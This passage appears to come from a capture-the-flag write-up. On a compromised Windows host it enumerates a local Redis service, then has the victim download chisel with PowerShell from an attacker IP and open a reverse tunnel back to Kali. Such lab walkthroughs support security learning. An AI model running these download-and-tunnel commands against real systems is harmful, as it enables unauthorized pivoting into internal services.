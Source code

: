 ```powershell
d-----          4/2/2021   7:38 PM                Microsoft Update Health Tools                                        
d-----         12/7/2019   1:14 AM                ModifiableWindowsApps                                                
d-----         3/31/2021   2:35 AM                nodejs                                                               
d-----         4/20/2021  12:08 AM                Redis                                                                
d-----          4/1/2021   7:49 PM                rempl                                                                
<snip>
```

View it's logfile

```
PS C:\Program Files\redis\Logs> type redis_log.txt
[3888] 02 Apr 07:31:08.779 * Redis 3.0.504 (00000000/0) 64 bit, standalone mode, port 6379, pid 3888 ready to start.
[3888] 02 Apr 07:31:09.029 # Server started, Redis version 3.0.504
[3888] 02 Apr 07:31:09.029 * The server is now ready to accept connections on port 6379
```

Running op port 6379. Verify it is running on its default port 3679:

```
PS C:\Program Files\redis> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       2588
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       928
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       2588
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5680
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:6379           0.0.0.0:0              LISTENING       1832
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       4460
  TCP    0.0.0.0:8081           0.0.0.0:0              LISTENING       7980
  ```

Excellent. Let's forward this port back to Kali so we can access it with a redis client. 

Start chisel server on kali
```
$ sudo chisel/1.7.3/chiselx64 server -p 3636 -reverse
2021/04/20 16:51:38 server: Reverse tunnelling enabled
2021/04/20 16:51:38 server: Fingerprint oFkUNH2YW0dqSbHy4OsE/A6XWJHxPc22SKFX03lOXt4=
2021/04/20 16:51:38 server: Listening on http://0.0.0.0:3636
2021/04/20 16:52:20 server: session#1: tun: proxy#R:6379=>6379: Listening
```

Download chisel and connect to server
```
PS C:\Users\jason> iwr http://10.10.14.22:80/chisel/1.7.3/chisel64.exe -out chisel.exe -useb
PS C:\Users\jason> start-process "chisel.exe" "client 10.10.14.22:3636 R:6379:127.0.0.1:6379"
```
